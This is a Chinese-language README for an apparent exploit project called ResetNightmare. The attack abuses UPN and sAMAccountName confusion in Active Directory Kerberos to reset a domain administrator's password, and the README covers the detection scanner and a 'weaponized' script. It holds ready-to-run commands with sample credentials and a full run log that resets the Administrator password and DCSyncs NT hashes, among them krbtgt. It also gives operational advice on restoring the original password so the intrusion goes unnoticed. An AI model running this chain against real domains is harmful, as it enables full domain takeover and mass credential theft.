









## ResetNightmare漏洞

ResetNightmare漏洞的无损利用项目，包含了scanner.py漏洞检测脚本以及resetNightmare.py漏洞利用脚本

## 原理分析

Kerberos认证过程大致分为AS-TGS-AP三个大的过程：

1. 其中AS用于申请TGT
2. TGS用于申请ST
3. AP过程属于是通过ST访问相关服务

攻击链的本质是利用 UPN 解析和 sAMAccountName 解析之间的身份映射差异，回顾对比下**Nopac**（sAMAccountName spoofing）

* CVE-2021-42278：制造一个名字错位的机器账户/TGT，域中机器账号和用户账号以sAMAccountName+$进行区分，MAQ>0时普通用户可以创建机器用户并且可以更改机器用户的sAMAccountName，这里受AD 的唯一性约束限制只能将创建的机器用户的sAMAccountName改成 DC01
* CVE-2021-42287：在 KDC 后续发票时把这个错位解析成真正的 DC 身份，即KDC 在生成服务票据时，没有正确识别"请求 TGT 的账户"和"服务票据所对应的账户"之间的关系，通过时间差这里会审请到DC的真实ST：
  * 攻击者通过 42278 把自己的机器账户改成了DC01（不带$）然后用它申请 TGT，此时攻击者拿到的 TGT 可以理解成（cname = DC01）
  * 然后攻击者把自己的机器账户sAMAccountName恢复：DC01 -> Hacker$，此时AD环境中的sAMAccountName一切正常了
  * 通过之前的TGT去走TGS-REQ流程，然后KDC找 DC01 找不到 ，尝试 DC01$ 找到真正的 Domain Controller，
  * 然后通过cname = DC01的TGT利用**S4U2Self(代表某个用户访问我的服务的票据)** 申请到了DC的ST，完成了闭环
* 微软修复方案：根据以上的过程可以发现，主要的核心问题是KDC不确定最初的TGT是谁申请的，因此Windows 给 TGT 的 PAC 增加了新的 **requestor 信息**，即验证TGT原始请求者是否和服务票据所对应的账户是同一个，不是一个就拒绝，也就是申请TGT的时候会包含申请者的SID信息
  * 即通过PAC_REQUESTOR_SID来校验TGT 最初究竟是哪个AD对象请求出来的，这个修复过程主要作用在TGS阶段
* ResetNightmare原理：核心利用点就是绕过了`PAC_REQUESTOR_SID`的补丁限制,即整个利用过程跳过了TGS阶段，拿到目标账号的TGT后直接访问464改密服务更改用户密码，过程大致如下
  * 获取了用户A和用户B的凭据并且用户A对用户B有`WriteProperty`权限（或者具备`CreateChild`权限即在某个OU下有权创建用户），目标用户为administrator
  * 修改B用户的UPN为目标用户的sAMAccountName即administrator，不会触发唯一性约束规则
  * 用`NT-ENTERPRISE` 请求 TGT：默认情况下KDC根据sAMAccountName来查询，这个AS-REQ请求相当于告诉KDC,这个名字应该按照 Enterprise Principal/UPN 语义解析，也就是B用户此时的UPN实际是administrator，此时发起请求的是B用户，所有会从B用户的UPN中取值，这里取到的就是administrator，也就是输入的cname是administrator+NT-ENTERPRISE实际找到B用户，然后输入B用户的密码这里造成虽然发起请求的用户是B用户但签发的 TGT 票面 cname 是**目标账户Administrator**
  * **清除/恢复用户B的UPN**，这里的目的是为了让 464 的 Change Password 服务在处理 TGT 的 `cname=Administrator` 时，把这个名字解析到真正的 Administrator，而不是继续解析回 B，详细解释如下
    * 保留 UPN 时，改密服务能同时按 UPN 和 sAMAccountName 找到两个对象，名字冲突会让它回到攻击者自己的账号上，充其量是改掉攻击者自己的密码
    * 清掉 UPN 之后，目录里再也没有谁的 UPN 等于票据上的那个名字。改密服务只能退回去按 **sAMAccountName** 解析，于是命中真正的目标账号
* 实战问题：实战中主要是漏洞的检测、账号的获取、以及更改了目标账号的密码之后如何恢复（重点）

##  脚本使用

* Scanner.py：漏洞检测，需要提供两个目标账号的凭据进行无害化漏洞验证，支持hash认证，
  * 检测原理：KDC 的 kpasswd 服务在收到"票面身份 ≠ PAC_REQUESTOR"的错位票据时，是直接消费它，还是先拒绝它
  * 当通过ResetNightmare漏洞更改一个不存在的用户的密码的时候会提示`target user not found`/`policy SOFTERROR`证明漏洞存在、如果提示其他则证明打了补丁
* ResetNightmare.py：武器化脚本，自动拉取域内的密码策略和minPwdAge、重置域管密码、DCSync获取TOP 10的用户hash、通过PwdHistory恢复域管密码实现无损利用


| 漏洞检测





```
python3 scanner.py 'union.local/awei' -hashes ':a67afa20...86b0' \
    --dc-ip 192.168.13.74 \
    --upn-user bytes --upn-user-hash 'f3173e4a...6c05'
```

 

| 漏洞完整利用流程

没有权限更改SPN的话会失败

`python3 resetNightmare.py 'union.local/awei:Awe@i@9768.A'  --dc-ip 192.168.13.74   --upn-user bytes    --upn-user-password '37hKMtTtZKKOJduZ'  --target-account Administrator  --target-new-password 'BbAAA#2026!c1`


`python3 resetNightmare.py 'union.local/awei' -hashes ':a67afa20...86b0' \
    --dc-ip 192.168.13.74 \
    --upn-user bytes --upn-user-hash 'f3173e4a...6c05' \
    --target-account Administrator --target-new-password 'HashMode#2026!a1'`







```
➜  ResetNightmare git:(main) ✗ python3 resetNightmare.py 'union.local/awei:Awe@i@9768.A'  --dc-ip 192.168.13.74   --upn-user bytes    --upn-user-password '37hKMtTtZKKOJduZ'  --target-account Administrator  --target-new-password 'Summer2026!Final#2026!b1'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Target sAMAccountName: Administrator
[*] UPNUser DN: CN=bytes,CN=Users,DC=union,DC=local (current UPN: bytes@union.local)
[*] --- PRE-FLIGHT CHECKS ---
[*] [policy] minPwdAge=0.0 days, minLen=7, history=24, complexity=True, lockoutThreshold=0
[*] [target] pwdLastSet age: 16.16 days (minPwdAge: 0.00 days)
[*] [target] Administrator is a Domain Admins member - DCSync/restore workflow viable
[!] [upn-user] no DACL returned - will rely on the actual write attempt.
[*] [new-pass] policy-compliant (length/complexity OK). Note: history (24) is enforced on the change path - reusing one of the target's recent passwords would be rejected at kpasswd time.
[*] --- PRE-FLIGHT PASSED ---
[*] Setting a fake UPN (Administrator) on bytes...
[*] Asking for a TGT for bytes as NT_ENTERPRISE 'Administrator' (kadmin/changepw)...
[*] Clearing fake UPN from bytes...
[*] Changing Administrator's password to the supplied value...
[*] Restoring original UPN value...
[*] DCSync as Administrator (history enabled)...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[*] DCSync collected secrets for 31 accounts

=== DCSync results (Domain Admins first, top 10) ===
[+] bytes [Domain Admins]
    NT hash      : f3173e4a5f85b5039b456aaa62aa6c05
[+] Administrator [Domain Admins]
    NT hash      : e12d0bb8ea6a01bb6f069c0088bfd945
    ntPwdHistory0: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory1: 9961e79e973cb37d00622f2f007e1853
    ntPwdHistory2: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory3: 19a08172eb188e480b861eed0749ad7b
    ntPwdHistory4: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory5: aa404fe9a36d8da7ef1cb0d041379ea1
    ntPwdHistory6: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory7: 2b607c10cada7a8d6e389a4658cd8f62
    ntPwdHistory8: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory9: d8ba7f8adb5d9622586464cc76d60cbd
    ntPwdHistory10: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory11: 1f256997803ca65efb0f0c4089c9d646
    ntPwdHistory12: d3b144271574135cde9d88fe70c28cbf
    ntPwdHistory13: 98d3e5dacb6136839362cb8a723f4a3c
    ntPwdHistory14: 1bbc63e3337ad1063f66789321f71dd6
    ntPwdHistory15: 98d3e5dacb6136839362cb8a723f4a3c
    ntPwdHistory16: de48f9be96b3c93c4b9105d062a8e4df
[+] Guest
    NT hash      : 31d6cfe0d16ae931b73c59d7e0c089c0
[+] krbtgt
    NT hash      : 406ee2aff9abe45da5837a660fdea029
[+] DefaultAccount
    NT hash      : 31d6cfe0d16ae931b73c59d7e0c089c0
[+] awei
    NT hash      : a67afa20c8fa25db259b92d0dd0b86b0
    ntPwdHistory0: 0f97545e6a7ca283e6d8816f73063c22
    ntPwdHistory1: a67afa20c8fa25db259b92d0dd0b86b0
[+] $A31000-EHS8MP2TV1EH
    NT hash      : 31d6cfe0d16ae931b73c59d7e0c089c0
[+] SM_3cb9c56cd75348d3b
    NT hash      : 31d6cfe0d16ae931b73c59d7e0c089c0
[+] SM_b45bb2f468c24b59a
    NT hash      : 31d6cfe0d16ae931b73c59d7e0c089c0
[+] SM_31698834770444aa9
    NT hash      : 31d6cfe0d16ae931b73c59d7e0c089c0
[*] Target's pre-attack NT hash recovered from ntPwdHistory0: d3b144271574135cde9d88fe70c28cbf
[*] Restoring Administrator's original password hash via SAMR...
[*] Original NT hash written back.
[*] Verified: pass-the-hash logon with the ORIGINAL hash succeeds - target's original password is effective again.

Success! Full lifecycle completed:
  - Administrator password was reset via CVE-2026-27912
  - DCSync hashes printed above (top 10, DA first)
  - original password hash restored and verified - the account works with its ORIGINAL password again
```

原密码`Summer2026!Final`有效，证明无损利用成功



如果利用过程中报了以下错误，证明--target-new-password指定的密码撞到了密码历史策略，也就是不能使用和之前类似的密码， 指定一个复杂一点的不常见的就可以了



提示如下内容则证明用户administrator在最近更改了密码且没有超过MinPwdAge（默认是24小时）



| PS重点:

所以在利用漏洞之前要检测以下配置：

1. 要重置的目标用户的pwdLastSet（最后一次设置密码的时间，如果最新修改过且没有超过MinPwdAge的话就找别的域管用户，或者等超过了MinPwdAge再进行利用）、域内MinPwdAge（多久可以更改一次密码，如果是0的话代表没有限制，默认是24小时，也就是一天内只允许更改一次密码）、域内的PwdHistoryPolicy配置（重点，属性PwdHistory会默认保存之前的历史更改过的密码默认值是24，即AD 记住每个账户最近 N 个用过的密码(的 NT hash), 改密时不允许重复使用它们，所以我们可以在拿到域管的凭据之后DCsync拿到域管的上一次的PwdHistory NT Hash值，然后恢复实现无损利用）
2. 确保对目标用户有`WriteProperty`等权限





## 其他说明

还有一种不需要获取到bytes的密码的方式，也就是基于ADCS环境利用shadowcredentials来操作，也就是说如果我们对bytes这个账号的属性`msDS-KeyCredentialLink`有写权限的话，就可以直接获取到bytes用户的NTLM Hash了然后利用了/或者通过PFX申请TGT，这个场景可能更通用见`resetnightmare-shadowcreds`项目

## 参考

* https://github.com/nollium/resetnightmare-shadowcreds
* https://www.semperis.com/blog/identity-crisis-novel-vulnerabilities-leading-to-kerberos-downgrade-dos-and-full-domain-takeover/
